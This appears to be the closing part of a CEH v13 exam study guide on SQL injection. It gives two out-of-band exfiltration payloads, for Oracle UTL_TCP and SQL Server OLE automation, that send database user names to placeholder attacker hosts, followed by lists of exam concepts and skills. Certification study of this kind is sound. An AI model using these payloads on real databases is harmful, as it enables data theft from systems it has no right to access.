 ### Network-Based Exfiltration

Uses network functions to transmit data to external servers.

#### Network Exfiltration Methods
```sql
-- Oracle UTL_TCP
' AND UTL_TCP.send_data('attacker-ip', 4444, (SELECT user FROM dual)) IS NOT NULL--

-- SQL Server with OLE Automation
'; DECLARE @obj INT; EXEC sp_OACreate 'WinHttp.WinHttpRequest.5.1', @obj OUT; 
   EXEC sp_OAMethod @obj, 'open', NULL, 'GET', 'http://attacker-domain.com/collect?data=' + (SELECT user_name())--
```

---

## Key CEH v13 Exam Points

### Critical Concepts
1. **In-Band Injection**: Direct data retrieval through application responses
2. **Error-Based Techniques**: Information gathering through database errors
3. **Union Attacks**: Combining multiple SELECT statements for data extraction
4. **Blind Injection**: Inferring information without direct data display
5. **Out-of-Band Methods**: Using alternative channels for data exfiltration
6. **Boolean Logic**: TRUE/FALSE condition testing for information discovery
7. **Time-Based Attacks**: Using delays to infer database information

### Exam Focus Areas
- **Attack Classification**: Distinguishing between in-band, blind, and out-of-band techniques
- **Union Requirements**: Column count and data type matching
- **Boolean Exploitation**: Character-by-character data extraction methods
- **Time-Based Detection**: Recognizing delay-based injection attempts
- **Error Message Analysis**: Extracting information from database errors
- **Stored Procedure Abuse**: System command execution through database functions
- **Tautology Conditions**: Authentication bypass using always-true statements
- **Comment Injection**: Query manipulation using comment syntax

### Practical Skills
- Identify appropriate injection technique based on application behavior
- Construct union-based payloads with proper column alignment
- Implement boolean-based blind injection for data extraction
- Recognize time-based injection indicators in application responses
- Analyze error messages for database structure information
- Evaluate out-of-band exfiltration possibilities
- Understand the progression from basic to advanced injection techniques
